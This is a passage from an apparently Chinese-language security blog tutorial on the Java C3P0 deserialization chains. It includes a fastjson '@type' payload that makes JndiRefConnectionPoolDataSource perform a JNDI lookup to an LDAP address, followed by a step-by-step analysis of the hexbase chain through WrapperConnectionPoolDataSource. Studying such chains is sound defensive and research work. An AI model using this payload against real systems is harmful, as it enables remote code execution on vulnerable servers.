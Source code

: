 ![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/JndiRefConnectionPoolDataSourceTestSuccess.png)

- 用 fastjson 打也比较简单

JAVA

```
public class JndiRefConnectionPoolDataSourceEXP {  
    public static void main(String[] args) {  
        String payload = "{\"@type\":\"com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource\"," +  
                "\"jndiName\":\"ldap://127.0.0.1:1230/remoteObject\",\"LoginTimeout\":\"1\"}";  
        JSON.parse(payload);  
    }  
}
```

成功

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/JndiRefConnectionPoolDataSourceSuccess.png)

### C3P0 之 hexbase 攻击利用

- 这个点因为之前从来没有接触到过，所以跟着其他师傅的文章学习一下，同时这一种利用方式也是二次反序列化的利用之一。

#### C3P0 之 hexbase 流程分析

这条链子能成立的根本原因是，有一个
`WrapperConnectionPoolDataSource` 类，它能够反序列化一串十六进制字符串

链子首部是在 `WrapperConnectionPoolDataSource` 类的构造函数中，如图

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/WrapperConnectionPoolDataSource.png)

在给 `userOverrides` 赋值的时候，用的是 `C3P0ImplUtils.parseUserOverridesAsString()` 这么一个操作，这个方法的作用就是反序列化 `userOverride` 把它这个 String 类型的东西转为对象。跟进

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/parseUserOverridesAsString.png)

它这里把 hex 字符串读了进来，把转码后的结果保存到了 `serBytes` 这个字节流的数组中，这个字节流是拿去进行 `SerializableUtils.fromByteArray()` 的操作，值得注意的是，在解析过程中调用了 `substring()` 方法将字符串头部的 `HASM_HEADER` 截去了，因此我们在构造时需要在十六进制字符串头部加上 `HASM_HEADER`，并且会截去字符串最后一位，所以需要在结尾加上一个`;`

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/fromByteArray.png)

```
SerializableUtils#fromByteArray()` 调用了 `SerializableUtils#deserializeFromByteArray`，跟进，看到了反序列化的操作 ———— `readObject()
```

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/deserializeFromByteArray.png)

#### C3P0 之 hexbase EXP 编写

- 因为我们在链子的第一步的时候，看到传入的参数是 `this.getUserOverridesAsString()`，所以用 Fastjson 的链子打会很简单。

这里我们需要写一个构造 hex 的 EXP，调用之前学 CC 链就可以

